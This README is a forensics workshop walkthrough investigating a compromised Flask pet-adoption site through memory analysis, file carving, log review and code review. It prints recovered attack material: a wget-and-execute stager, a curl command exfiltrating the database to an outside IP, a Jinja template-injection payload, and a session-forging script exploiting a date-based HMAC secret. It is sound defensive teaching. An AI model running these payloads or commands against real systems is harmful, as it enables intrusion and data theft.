




# HackyPaws: AppSec Forensics Walkthrough

## Getting Started

Howdy! This is an offline version of the AppSec Forensics workshop from Bsides SATX 2024. The slides presented are [here](doc/Appsec%20Forensics.pdf) as well.

We'll dive into the basics of forensics and application security. You'll learn techniques to investigate a novel vulnerability in an application that's been abused by attackers, all without using any commercial tools. This applies to real-world scenarios, whether you're dealing with an internally developed compromised app or a 0day in a product that your company manages.

You'll need to complete this on a linux based forensic workstation, preferably a [REMnux](https://remnux.org/) VM. You will need about 15 gb free space on REMnux.

Once you have a linux forensic workstation, you can download the below volatility profile and memory/disk images to get started.
The example commands expect the files to be in `~/forensic`, so create that directory and save the files there.

The files are hosted on [Google Drive](https://drive.google.com/drive/folders/1u5BIgvzs-Cn5czZ8H_Giz7r3Sqp2Hxq2?usp=sharing).

| File | Hash |
| -------- | ------- |
| `~/forensic/hackypaws.vda1` | `318ec1c37c9035109cb488eb450498d29a0d4368` |
| `~/forensic/hackypaws.mem`  | `a2cc19cbb371ce05210763efbdedbfe9589a5158` |
| `~/forensic/vmlinux-5.4.0-182-generic.json` | `92dcbb72a682aad324d3e4cd19fbc0736ceb7613` |

Once downloaded, you can validate them with `shasum` using the the hashes above or the included shasum file.

```text
$ shasum -c SHA256SUMS.sig

hackypaws.mem: OK
hackypaws.vda1: OK
vmlinux-5.4.0-182-generic.json: OK
```

## Scenario

Hackypaws is a pet adoption website, it allows people to view "paws" a.k.a pets for adoption,
and then submit their info on an adoption application. Admins of the site can manage the paw profiles and then view the adoption requests.

**Home Page**


**Paw Profile**




**Admin Page**


### Intrusion & IOCs

The hackypaws team is reporting some strange activity on the site, and they're requesting you investigate.

First off, there's an EDR alert for file-less malware execution.


Soon after that, there were some user reports for an "a" on the site that nobody could explain.


Shortly after the "a" was reported, the site went down and can't recover itself.


#### IOCs So Far

Based on the info collected from the hackypaws team, this would be our IOCs so far.

- EDR Fileless malware Alert
- Unauthorized entry on the website
- Some kind of Denial of Service

From this, we can discern that an intrusion has taken place, and that a forensic investigation is required.

#### Investigation Goals

By the end of this investigation, we'll want to:

- Find the novel vulnerability attackers are abusing
- Discover the complete attack chain
- Determine level of access & impact

## Forensics

Getting into this we know nothing about the app, we need to get an idea of what kind of vulnerability
and general location before getting into code review. Going straight into code review without
understanding this can lead to lots of dead ends in a large production system.

### Memory Collection

The memory image and symbols was already collected for us by the hackypaws team, and these are the files you downloaded in the beginning.

Using [AVML](https://github.com/microsoft/avml), the team collected the memory contents in a file. The command they used to generate the memory image was `avml hackypaws.mem`, and that dumped all memory contents to `hackypaws.mem`.

For us to investigate the memory image using [volatility](https://github.com/volatilityfoundation/volatility3), we also need a system profile. This basically helps volatility understand linux memory for a specific linux kernel version.

To generate the system profile, the hackypaws team used a volatility tool called [dwarf2json](https://github.com/volatilityfoundation/dwarf2json) with the below command on the compromised web server.

```text
dwarf2json linux --elf /usr/lib/debug/boot/vmlinux-5.4.0-182-generic > vmlinux-5.4.0-182-generic.json
```

More complete details for generating system profiles can be found [here](https://medium.com/@alirezataghikhani1998/build-a-custom-linux-profile-for-volatility3-640afdaf161b) on ubuntu/debian for reference.

### Memory Forensics

Alright, this is where you come in! We're going to import the system profile and get straight into it.

### Loading the system profile

On remnux, copy the system profile downloaded from google drive to the correct location where volitility can read it.

```text
cp vmlinux-5.4.0-182-generic.json /usr/local/lib/python3.8/dist-packages/volatility3/framework/symbols/
```

Now, you should be able to run a basic vol3 commands without any errors. You should see a list of processes appear if everything is working as expected with the below example.

```text
$ vol3 -f hackypaws.mem linux.pslist

Volatility 3 Framework 2.5.2
Progress:  100.00		Stacking attempts finished
OFFSET (V)	PID	TID	PPID	COMM	File output

0x962d813128c0	1	1	0	systemd	Disabled
0x962d81310000	2	2	0	kthreadd	Disabled
...
```

### Getting started with investigating memory

A great place to start with a compromised system is to review running processes. This may tell us if there's any active malware running. Vol3 have support for this through `linux.psaux`. Note that the first time you run a vol3 command, it will take longer than follow up vol3 commands.

```text
$ vol3 -f hackypaws.mem linux.psaux
```

#### Process Review

There's going to be a lot of processes in the output, we're looking for anything that shouldn't be there on a normal linux system running a web server.

After some digging, this little gem appears! This is what appears to be a shell stager that's downloading a binary and then executing it. We can also see this binary `uf` is running out of `/dev/shm`.

```text
19769	804	sh	/bin/sh -c wget http://137.184.178.106:8000/uf -O /dev/shm/uf;chmod +x /dev/shm/uf;/dev/shm/uf
19772	19769	uf	/dev/shm/uf
```

Let's try to understand what's happening here a bit more, it starts with a wget, but it's outputting the file to `/dev/shm`, why is that?

This path is shared memory in linux that operates as a ramdisk, so anything in there never actually touches disk. From an attacker's perspective, this is a good place to save and launch malware from because it's harder to recover files from this location post exploit.

#### Process Tree

Now that we've found the process, where did this come from? To find this, we can look at the malware's parent process.

An important concept here is that anytime an app is first compromised on a system, the attacker will either be executing as that application within the same app process, or they're going to spawn child processes which is the case here.

After this point, they can escalate access on the system where they're able to spawn processes as root or another user, then in most cases the initial exploit or child processes under the app are not required anymore. So we want to understand where they are in this flow, and we can use process trees to help determine that!

```text
$ vol3 -f hackypaws.mem linux.pstree
```
When reviewing this output, pay attention to the PID (process id), and PPID (parent process id). You should see a process structure that looks like this.

```text
* 656 - main.py
* * 19769 - sh
* * * 19772 - uf
* * * * 19801 - bash
```

Our web app is `main.py`, and under it is `sh` -> `uf` -> `bash`, so this tells us that the attacker is still under the webserver process and hasn't successfully migrated out of this process tree yet.

In the event they have moved, to lets say a persistence method. You may see something like cron or systemd launching the malicious process as some basic examples.

#### Envars from malware chain

Reviewing the process chain's env vars will help us gain some context of where the process' are running, users, etc.

```text
$ vol3 -f hackypaws.mem linux.envar --pid 19769

$ vol3 -f hackypaws.mem linux.envar --pid 19772

$ vol3 -f hackypaws.mem linux.envar --pid 19801
```

There was not a ton of information from env vars, but we were able to learn the process `uf` with pid `19772` had a present working directory of `/opt/hackypaws`. That file path is actually where the website code is located on the webserver, more evidence of a web app vulnerability/exploit.

#### Bash History from Memory

Anytime you see a bash process in an attack chain, you should try to pull it's bash history. A lot of times bash processes in malware chains won't persist a `.bash_history` file, but the bash current session's history is typically stored in memory which vol3 can read.

For this to work, we're going to pull all bash session data and not specify a pid. This is going to catch a lot of non-malicious commands that were executed some time earlier by the hackypaws admin.

```text
$ vol3 -f hackypaws.mem linux.bash
```

Searching through the output a bit, these 2 commands should catch your eye.

```text
20251	bash	2024-05-21 04:28:37.000000 	curl -i -X POST -H "Content-Type: multipart/form-data" -F "data=@hackypaws.db" http://137.184.178.106:8000/upload_file
20251	bash	2024-05-21 04:28:37.000000 	rm hackypaws.db
```

Reading that curl command, this command uploads the hackypaws database to a remote site, and they deleted the file right after.

With the IOCs we have so far, deleting a database file could logically cause a 500 error that was seen, so that makes sense. This is the second time we've seen the IP `137.184.178.106` in an IOC.

### Gaining Exploit & App Context from Memory

Switching gears a bit here, now we understand the malware chain and some of the post exploitation pretty well. We're going to switch into looking for anything that could help us find the vulnerability in the app, and this includes finding any exploits from memory.

A good place to look for exploits in memory is memory maps. These generally contain all the data loaded for a process in binary form. It may include memory used by the process, but also loaded libraries and other binaries.

Vol3 can dump this data to a directory for us, where we can start searching. It's best to dump this in a new dir to keep your forensic dir organized.

```text
$ mkdir procs
$ cd procs

$ vol3 -f ../hackypaws.mem linux.proc --dump
```

After that completes, you're going to be left with a ton of files. If you want to dig into this data, likely our `uf` process is in here and with some scripting you could recover that binary fully.

Anyways, we can search for the exploit in memory using this data, and we can try our new IOC! Using strings and grep will help parse the files for anything related to the 137 IP that the malware was interacting with.

```text
$ strings *|grep '137.184.178.106'
```

We see a few entries for the same entry, which is this:

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('wget http://137.184.178.106:8000/uf -O /dev/shm/uf;chmod +x /dev/shm/uf;/dev/shm/uf').read() }}
```

#### Template Injection

That's clearly related to our malicious process, what is it though? To the trained eye, we can discern a few things: it looks python based, and the `{{ }}` chars may indicate a server side template injection (SSTI).

SSTI is a bug class that affects backend applications where templating engines like Jinja, tymeleaf, and others are used. It's less common, but typically results in remote code execution when it happens.

We really need to find where and how this SSTI payload was injected.

### Recovering Deleted Files

Typically, when a payload is sent to a web app that needs to be stored and then processed, it will be in the database.

The attacker deleted the app's database, so we need to get that back to help find where in the app the payload could have been injected.

#### File Parsing

When a file is deleted, typically it's not actually deleted. It's storage on disk is marked as unallocated space, then the OS will overwrite that location at some point in the future.

Using a file recovery tool, we can parse through unallocated space, and then carve out files we're interested in. Parsing and carving is all about file headers, there are no file names preserved when a file is deleted in most file systems.

File headers, also known as magic bytes are pieces of data in the first 16 bytes of the file that identify what kind of file it is, without the use of a file extension. If you've ever used the `file` command, it uses headers.

We need to get the file header for sqlite `.db` files, which we can probably google, but it's good to know how to get these yourself. We need to create a test file to generate the header though using sqlite. Make sure you cd back out of the `procs` dir before continuing.

```text
$ sqlite3 test.db

# SQLite command, use ctrl+d to exit after

create table test(test text);
```

To generate the header, we can use `xxd`:

```text
$ xxd -l 16 test.db

00000000: 5351 4c69 7465 2066 6f72 6d61 7420 3300  SQLite format 3.
```

This came back with a hex value, that is actually the string `SQLite format 3.`.

We're going to plug this into a foremost config file `foremost.conf` by converting the hex to the format foremost is expecting with `\x`, go ahead and create that file.

```text
sqlite y 1000000 \x53\x51\x4C\x69\x74\x65\x20\x66\x6F\x72\x6D\x61\x74\x20\x33\x00
```

We can use foremost to carve any sqlite files out of the disk image, it will create and populate a directory called `output` with any findings.

```text
$ foremost -c foremost.conf -i hackypaws.vda1
```

#### File Carving

We should now see an output directory with some sqlite files. These are going to be all the sqlite files found in unallocated space, so some of them are going to be unrelated.

We can use grep to help find which one is the right file though.

```text

$ cd output/sqlite/

$ ls
00300344.sqlite  01135725.sqlite  02437504.sqlite  04578048.sqlite
01133277.sqlite  01931025.sqlite  02437600.sqlite  05126145.sqlite

$ grep -R hackypaws .
Binary file ./04578048.sqlite matches
Binary file ./00300344.sqlite matches
```

Awesome, we've recovered our database file!

#### Reviewing the recovered database

Some types of exploits will require the payload to be saved in the database, finding and understanding it may help us figure out where to focus in the app during code review. So lets take a look with sqlite!

```
$ sqlite3 ./04578048.sqlite
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE sqlite_sequence(name,seq);
CREATE TABLE users(
user_id INTEGER PRIMARY KEY AUTOINCREMENT,
username text not null,
password text not null);
CREATE TABLE paws(
   paw_id INTEGER PRIMARY KEY AUTOINCREMENT,
   name text not null,
   uploaded_by text not null,
   description text not null,
   animal text not null,
   profile_pic text not null
);
CREATE TABLE paw_adoption(
   adopt_id INTEGER PRIMARY KEY AUTOINCREMENT,
   paw_id INTEGER not null,
   name text not null,
   email text not null
);
sqlite> select * from paws;
1|BoBo|trudy|Meet BoBo, a stunning golden retriever with a heart of 
...
14|a|trudy|a|{{ self.__init__.__globals__.__builtins__.__import__('os').popen('wget http://137.184.178.106:8000/uf -O /dev/shm/uf;chmod +x /dev/shm/uf;/dev/shm/uf').read() }}|static/img/a.png
sqlite>
```
I've truncated some of the output here, but we can see the payload was in the database! This is a great find, we need to understand the schema to make use of this later though.

The payload is in the `animal` column, so this is probably related to an animal parameter somewhere in the app's code.

### Log Review

The last part before we get into code review is the logs, seeing what endpoints an attacker was interacting with will help us narrow the code review even further.

In the process list earlier was caddy, we can assume that the web server was hosted with this, and those are the logs we should review. We just need to mount the disk image to get those.

When working with disk images during investigations, we don't want to modify the disk image at all, so we'll only mount this ad read-only. Professionals may also use what's called a hardware write blocker to ensure no modifications are being made instead of a software write blocker like we're using in this case by mounting read-only.

```text
$ sudo mkdir /mnt/hackypaws
$ sudo mount -o ro,noload ./hackypaws.vda1 /mnt/hackypaws

$ sudo ls /mnt/hackypaws/var/log/caddy
$ sudo head /mnt/hackypaws/var/log/caddy/hackypaws.log -n 1
```

The caddy log is in json format which is kind of hard to read with cat, so we're going to parse this json so it's easier to read using duckdb!

Go through the [duckdb installation](https://duckdb.org/docs/installation/?version=stable&environment=cli&platform=macos&download_method=package_manager) first, and then lets review the logs.

```text
$ sudo cp /mnt/hackypaws/var/log/caddy/hackypaws.log hackypaws_log.json

$ sudo duckdb
v0.10.2 1601d94f94
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
D SELECT request.* FROM 'hackypaws_log.json';
```

After reviewing the output, you should see this `185.225.28.236` interacting with the admin endpoint, and this paw ID matches with the one found with the payload in the database! Once you're done in duck db use ctrl+d to exit.

```text
│ 185.225.28.236 │ 59137       │ 185.225.28.236 │ HTTP/1.1 │ POST    │ hackypaws.com │ /admin/create
│ 185.225.28.236 │ 59170       │ 185.225.28.236 │ HTTP/2.0 │ GET     │ hackypaws.com │ /paws/14
```

This IP is in macedonia according to ipinfo.io, where nobody on the hackypaws team lives or works.

```text
$ curl https://ipinfo.io/185.225.28.236
{
  "ip": "185.225.28.236",
  "city": "Ohrid",
  "region": "Ohrid",
  "country": "MK",
  "loc": "41.1172,20.8019",
  "org": "AS205119 TELEKS DOOEL Skopje",
  "postal": "6000",
  "timezone": "Europe/Skopje",
  "readme": "https://ipinfo.io/missingauth"
}%
```
From all this, we can discern that these two endpoints are where the bug may be, we're ready for code review!

### Code Review

Armed with all the context and knowledge we've gained, this is going to be a targeted review of the paws and admin endpoints.

Starting off, lets sww what's in main.py.

```text
sudo cat /mnt/hackypaws/opt/hackypaws/main.py
#!/usr/bin/python3

from flask import Flask, render_template
from waitress import serve
from blueprints.auth.auth import auth_bp
from blueprints.admin.admin import admin_bp
from blueprints.paws.paws import paws_bp
from hackypaws.Authenticator import Authenticator
from hackypaws.Paws import Paws

app = Flask(__name__)

app.register_blueprint(auth_bp, url_prefix="/auth")
app.register_blueprint(admin_bp, url_prefix="/admin")
app.register_blueprint(paws_bp, url_prefix="/paws")

@app.route("/")
def index():
    paws = Paws.get_all_profile()
    return render_template('index.html', paws=paws)

if __name__ == '__main__':
    serve(app, host='127.0.0.1', port=8080)
```

This is a flask app that's using blueprints for `/auth`, `/admin`, and `/paws` endpoints, so those paths will be in other files.

Lets look at paws to find our SSTI bug in `/mnt/hackypaws/opt/hackypaws/blueprints/paws/paws.py`

```python
@paws_bp.route("/<int:id>")
def paws(id):

    paw = Paws.get_profile(str(id))
    tagline = Paws.generate_tagline(paw)
    animal = paw['animal'].lower()

    if animal == "dog":
        paw_icon = "<i class='fas fa-dog'></i>"
    elif animal == "cat":
        paw_icon = "<i class='fas fa-cat'></i>"
    else:
        paw_icon = "<i class='fas fa-paw'></i>"

    tagline_template = tagline + " {{paw_icon|safe}}"
    tagline = render_template_string(tagline_template, paw_icon=paw_icon)

    return render_template("paw.html", paw=paw, tagline=tagline)
```

Knowing we're looking for SSTI makes this super easy to spot the bug, `render_template_string()` is being used to insert some kind of icon on the page, but it's also opening a perfect opportunity for template injection.

So thats our bug! However, something doesn't really add up, somehow they sent an admin request and this app has implemented a login, so is there another bug?

#### Authentication Bypass

When digging for auth bypass bugs, there's a few common locations and bug classes that can be fouund.

- Improper pw reset/signup
- Injection in login form
- Weak crypto
  - Exfil/Cracking passwords
  - Forging session tokens

To find these bugs, you'll want to review the login/signup processes. Crucially important, how are they tracking sessions? Are they using JWTs, custom cookies, oauth, nothing?

Checking out the auth endpoints in `/mnt/hackypaws/opt/hackypaws/blueprints/auth/auth.py`, they are setting custom cookies `session` and `username`.

```python
@auth_bp.route("/login", methods=['POST'])
def login():
    data = request.form
    if not data.get('username') or not data.get('password'):
        return redirect("/auth?login=False")
    if not Authenticator.login(data.get('username'), data.get('password')):
        return redirect("/auth?login=False")
    else:
        session = Authenticator.generate_session(data.get('username'))
        resp = redirect("/admin/")
        resp.set_cookie('session', session)
        resp.set_cookie('username', data.get('username'))
        return resp
```

That's a good find, now we should try to understand what `Authenticator.generate_session` is actually doing in `/mnt/hackypaws/opt/hackypaws/hackypaws/Authenticator.py`.

```python
    def generate_session(username):
        '''
        Generates user sessions
            sessions will be invalidated every 24h for security
        '''
        auth_secret = str(datetime.date.today()).encode('utf-8')
        hmac_value = hmac.new(auth_secret, username.encode('utf-8'), hashlib.sha256).hexdigest()
        return hmac_value
```

It's using an HMAC with a secret, which is technically safe as long as your secret is long and random enough to provide a decent security value. However, it's actually just the date which is a horrible secret!

So we've found a way to forge tokens by guessing the secret, we can actually test this out locally and generate a session for `trudy`.

```text
python3
Python 3.8.10 (default, Nov 22 2023, 10:22:35)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import datetime, hashlib, hmac
>>> def generate_session(username):
...     auth_secret = str(datetime.date.today()).encode('utf-8')
...     hmac_value = hmac.new(auth_secret, username.encode('utf-8'), hashlib.sha256).hexdigest()
...     return hmac_value
...
>>> generate_session("trudy")
'855eca12a65e353909c6b0acd88d22f9da2e8b8002657acf5efb96c383bf3dbe'
```

## Attack Chain

We've uncovered a complete attack chain through forensic and code review, it looks something like this:

1. Generate admin session for “trudy” with forged token
1. Send post request containing SSTI code exec payload
1. Payload contains a shell stager, downloads binary to ramdisk
1. Command & Control starts
1. Exfil our DB
1. Delete our DB to hide intrusion method


